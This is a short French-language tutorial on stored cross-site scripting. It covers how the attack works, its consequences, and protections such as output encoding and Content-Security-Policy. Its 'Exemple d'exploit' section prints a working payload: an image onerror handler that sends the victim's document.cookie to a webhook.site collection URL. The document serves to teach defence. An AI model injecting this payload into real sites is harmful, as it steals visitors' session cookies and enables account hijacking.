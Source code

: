 ```yaml
---
title: "Comprendre l'attaque XSS stockée"
description: "Explication détaillée du Cross-Site Scripting stocké, son fonctionnement et ses risques."
date: 2025-09-22
tags: ["XSS", "Web", "Sécurité"]
authors: ["Lux_"]
image: "https://media.licdn.com/dms/image/v2/D4D12AQH9YPiouVt2-w/article-cover_image-shrink_720_1280/article-cover_image-shrink_720_1280/0/1737045223971?e=2147483647&v=beta&t=njLg1y15NvNrMq4F06_5Ckfwy6chXD5DRuyFEQBjUCI"
---
```


# Comprendre l'attaque XSS stockée

Une faille **XSS (Cross-Site Scripting) stockée** est une vulnérabilité qui permet à un attaquant d'injecter un script malveillant directement dans une **base de données** ou un élément persistant d'un site web, comme un **commentaire, un champ de formulaire** ou un profil utilisateur.

Contrairement au XSS réfléchi, qui s'exécute uniquement lorsqu'un utilisateur clique sur un lien spécialement construit, le XSS stocké est **persistant** et affecte **tous les visiteurs** de la page vulnérable.

---

## Exemple d'exploit

Voici un exemple de code qui pourrait être injecté dans un champ vulnérable :

```js
&lt;img src="x" onerror="new Image().src='https://webhook.site/9aba896b-d7fd-4f87-b5cd-d2d4d2bc7ec4/cookie?data='+document.cookie"&gt;
```


---

## Comment ça fonctionne ?

Ce script fonctionne ainsi :

1. Une image est insérée avec une **source invalide** (`src="x"`).
2. L'événement **`onerror`** se déclenche lorsque l'image ne peut pas se charger.
3. Un **nouvel objet Image** est créé, et sa source est définie sur une URL contrôlée par l'attaquant, contenant les **cookies de la victime**.
4. La requête envoie automatiquement les cookies ou autres informations sensibles vers le serveur de l'attaquant.

---

## Conséquences

Une attaque XSS stockée est particulièrement dangereuse :

- Elle affecte **tous les utilisateurs** visitant la page vulnérable.
- Les **cookies volés** peuvent contenir des informations sensibles, comme les sessions authentifiées.
- Elle peut être utilisée pour injecter d'autres types d'exploits :
- **Redirections malveillantes**
- **Phishing** intégré dans le site
- **Modification du contenu affiché** aux utilisateurs

---

## Comment se protéger ?

Pour prévenir les XSS stockés :

- **Échapper / encoder toutes les entrées utilisateurs** avant affichage.
- Utiliser des **frameworks qui gèrent automatiquement l'encodage** (React, Vue, Astro…).
- **Valider et filtrer** les données côté serveur.
- Activer des en-têtes de sécurité HTTP, comme **Content-Security-Policy (CSP)**.

> Le XSS stocké reste l'une des vulnérabilités web les plus critiques, car elle touche directement la confiance entre un site et ses utilisateurs.
